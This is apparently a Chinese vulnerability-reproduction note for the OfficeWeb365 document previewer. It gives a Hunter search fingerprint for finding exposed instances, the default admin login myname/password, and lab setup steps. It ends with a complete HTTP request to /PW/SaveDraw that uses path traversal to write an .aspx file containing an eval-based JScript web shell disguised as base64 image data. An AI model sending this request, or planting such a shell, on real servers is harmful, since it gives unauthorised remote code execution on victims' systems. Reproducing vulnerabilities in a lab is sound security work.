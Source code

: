 环境搭建-指纹
-------

![](https://cdn.nlark.com/yuque/0/2024/png/12959325/1706067385517-86dcffd7-c755-49fd-8ed2-471a5ea95133.png)

#### Hunter 指纹

web.body="请输入 furl"

环境

<https://officeweb365.com/download>

使用手册

```php
                   快速使用说明

更详细的使用手册详见：Docs\OfficeWeb365部署使用手册.pdf

一、默认使用方法：
http://localhost:8088/?furl=文件地址
1、更改localhost:8088，可以在IIS里绑定域名、IP、端口号，数量不限。
2、furl文件地址：可以是公网地址，如：http://a.com/b.doc，也可以是本机（预览服务器）地址，如：D:\docs\b.doc。默认只接收网络地址的文件，可在配置文件中更改文件接收方式。IE对中文及特殊符号不会编码，为了兼容性考虑，最好对furl参数进行URL编码，编码方式为UTF-8。

二、后台设置界面：http://localhost:8088/config。默认用户名：myname，密码：password。

三、缓存清理及加速文件位置：officeweb365\clearcache\config.xml。使用记事本编辑。保存后，需要手动重启服务：A Officeweb365 ClearCache

2017年11月18日  V3.0.0
```

搭建成功

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1693065836274-0658e561-eea2-41ca-a58a-c6cc83e201ac.png)

![](https://cdn.nlark.com/yuque/0/2024/png/12959325/1706067398912-0cfb7c46-7704-484f-8a79-121372d0dc6a.png)

默认口令 myname/password 进入后台，可看到版本号

![](https://cdn.nlark.com/yuque/0/2024/png/12959325/1706067466988-a90eb1b5-830f-4c1d-b721-e49b4f973270.png)

测试上传成功

```php
POST /PW/SaveDraw?path=../../Content/img&idx=cnvdtes2827.aspx HTTP/1.1
Host: xxx
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 142

data:image/png;base64,01s34567890123456789y1234567h8901234567m91<%@ Page Language="Jscript"%><% eval(Request.Item["ant"],"unsafe"); %>///---
```
